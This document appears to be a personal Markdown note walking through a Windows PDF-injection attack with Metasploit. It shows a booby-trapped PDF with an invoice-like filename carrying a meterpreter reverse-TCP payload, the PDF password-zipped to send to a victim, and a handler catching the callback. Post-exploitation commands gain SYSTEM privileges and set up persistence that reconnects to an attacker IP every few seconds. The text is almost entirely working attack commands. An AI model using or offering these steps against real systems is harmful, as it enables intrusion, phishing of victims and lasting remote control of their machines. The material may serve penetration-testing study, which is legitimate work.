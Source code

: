 
# PDF Injection

## Windows Exploitation: PDF Injection Attack

This section demonstrates a comprehensive Windows exploitation scenario using a PDF injection attack, followed by post-exploitation techniques.

### Initial Access: Malicious PDF Creation

```bash
# 1. Generate malicious PDF with embedded executable
msf6 > use exploit/windows/fileformat/adobe_pdf_embedded_exe
msf6 exploit(windows/fileformat/adobe_pdf_embedded_exe) > set FILENAME facture_finale2021.pdf
msf6 exploit(windows/fileformat/adobe_pdf_embedded_exe) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(windows/fileformat/adobe_pdf_embedded_exe) > set LHOST 192.168.74.171
msf6 exploit(windows/fileformat/adobe_pdf_embedded_exe) > set LPORT 4444
msf6 exploit(windows/fileformat/adobe_pdf_embedded_exe) > exploit

# 2. Zip the PDF with password protection
┌──(kali㉿kali)-[~/Desktop]
└─$ zip -e test.zip test.pdf
Enter password: test
Verify password: test

# 3. Set up handler to receive connection
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.74.171
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > exploit

# 4. Send ZIP file to victim
# When the victim extracts and opens the PDF, you'll receive a meterpreter session
```

![[Pasted image 20250429102221.png]]
![[Pasted image 20250429102905.png]]
![[Pasted image 20250429103324.png]]

### Post-Exploitation: Privilege Escalation

```bash
# 5. Attempt to gain SYSTEM privileges
meterpreter> getsystem
[*] Obtained system privileges

# 6. Establish persistence
meterpreter> run persistence -U -i 5 -p 2021 -r 10.10.10.128
# -U: Start the agent when the user logs on
# -i: Connect back every 5 seconds
# -p: Use port 2021
# -r: Connect back to this IP address
```
